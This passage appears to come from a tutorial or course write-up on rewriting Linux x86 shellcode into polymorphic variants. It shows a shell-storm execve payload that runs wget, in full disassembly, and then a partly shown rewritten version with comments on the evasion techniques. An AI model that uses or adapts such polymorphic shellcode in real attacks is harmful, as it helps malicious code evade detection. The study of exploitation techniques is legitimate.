 In layman's terms, this essentially means we will rewrite the assembly code to perform the same function, but with as many different ways of doing so as possible.

The only constraint we have is that our polymorphic version cannot be more than 150% larger than our sample. Likewise we receive bonus points for making our code shorter than the original.

#### Shellcode 1:

We start with polymorphing a basic wget payload:

[http://shell-storm.org/shellcode/files/shellcode-611.php](http://shell-storm.org/shellcode/files/shellcode-611.php)

##### Original: 
`Shellcode length: 42`
```
08048054 <.text>:
 8048054:	6a 0b                	push   $0xb
 8048056:	58                   	pop    %eax
 8048057:	99                   	cltd   
 8048058:	52                   	push   %edx
 8048059:	68 61 61 61 61       	push   $0x61616161
 804805e:	89 e1                	mov    %esp,%ecx
 8048060:	52                   	push   %edx
 8048061:	6a 74                	push   $0x74
 8048063:	68 2f 77 67 65       	push   $0x6567772f
 8048068:	68 2f 62 69 6e       	push   $0x6e69622f
 804806d:	68 2f 75 73 72       	push   $0x7273752f
 8048072:	89 e3                	mov    %esp,%ebx
 8048074:	52                   	push   %edx
 8048075:	51                   	push   %ecx
 8048076:	53                   	push   %ebx
 8048077:	89 e1                	mov    %esp,%ecx
 8048079:	cd 80                	int    $0x80
 804807b:	40                   	inc    %eax
 804807c:	cd 80                	int    $0x80
*/
```
global _start			

I made some basic adjustments, to the point it is quite different from the original and only 9 bytes longer, 123% larger.


##### Polymorphic:
`Shellcode Length:  51`
```
global _start			

section .text
_start:

	xor ecx, ecx
	mul ecx ; this one instruction sets both eax and edx to 0, this is because mul 		results are stored in EAX and EDX
	push eax
	mov cl, 11
a:
	inc eax ; increment cl 11 times to set to execve syscall
	loop a

	push 0x63636363

	mov ecx, esp ; the null and "cccc" get moved to ecx
	push edx
	push 0x74 ;t
	push 0x6567772f ;egw/
```